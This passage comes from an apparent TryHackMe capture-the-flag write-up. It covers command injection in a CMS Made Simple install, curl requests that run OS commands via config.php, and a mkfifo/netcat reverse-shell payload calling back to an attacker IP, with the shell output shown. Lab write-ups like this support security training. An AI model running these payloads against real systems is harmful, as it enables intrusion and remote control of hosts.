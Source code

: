 Since we know **the database name is `cmsmsdb`, username is `cmsmsuser` and password is `devpass`**, we can exploit the command injection vulnerability!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124032219.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124032245.png)

**Forward that tampered POST request and finish all the installation steps:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124032415.png)

> Note: Admin username and password can be random.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124032501.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124032651.png)

**Now, we can execute OS command via going to the `config.php` page:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# curl 'http://toc2.thm/cmsms/config.php?cmd=id;hostname' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
toc
```

Nice!!

**Let's get a reverse shell!**

**To do so, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# nc -lnvp 443   
listening on [any] 443 ...
```

- Send the reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

But first, we need to know `which` programme that we can abuse on the target machine:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# curl http://toc2.thm/cmsms/config.php --get --data-urlencode "cmd=which nc"     
/bin/nc
```

**It's has `nc` installed! Let's use `nc` payload for our reverse shell:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# curl http://toc2.thm/cmsms/config.php --get --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.0.253 443 >/tmp/f"
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.248.228] 45592
bash: cannot set terminal process group (927): Inappropriate ioctl for device
bash: no job control in this shell
www-data@toc:/var/www/html/cmsms$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
www-data
toc
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
```